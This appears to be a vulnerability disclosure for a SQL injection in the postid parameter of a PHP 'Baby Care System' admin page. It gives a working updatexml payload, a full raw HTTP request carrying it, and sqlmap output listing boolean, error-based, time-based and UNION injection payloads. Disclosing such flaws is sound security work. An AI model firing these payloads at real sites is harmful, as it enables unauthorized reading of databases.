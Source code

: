 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/posts.php&action=edit

![image](https://user-images.githubusercontent.com/54017627/160948031-f08a0251-097a-4c0f-8952-095124bba78d.png)

Vulnerability location: /BabyCare/admin.php?id=posts&action=edit&postid=2 //postid is Injection point

[+]Payload: /BabyCare/admin.php?id=posts&action=edit&postid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //postid is Injection point

```sql
GET /BabyCare/admin.php?id=posts&action=edit&postid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7r2orfo1e9b49mg28f5ke9bdjv
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/160947897-0af19bc1-58e2-418d-a21c-122416bddbd8.png)

```sql
---
Parameter: postid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=posts&action=edit&postid=2' AND 7502=7502 AND 'Yurq'='Yurq

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=posts&action=edit&postid=2' AND (SELECT 6867 FROM(SELECT COUNT(*),CONCAT(0x7162786a71,(SELECT (ELT(6867=6867,1))),0x7170767071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'huoz'='huoz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=posts&action=edit&postid=2' AND (SELECT 5804 FROM (SELECT(SLEEP(5)))ZBUN) AND 'nxGO'='nxGO

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=posts&action=edit&postid=-9180' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162786a71,0x4e436b74735063624a4164484d4f675676736e68467951525141677146614f56476b524f66456f50,0x7170767071),NULL,NULL,NULL,NULL-- -
---
```

![image](https://user-images.githubusercontent.com/54017627/160947861-be4e9a03-ce22-4e52-a60e-b13cb6feebd4.png)

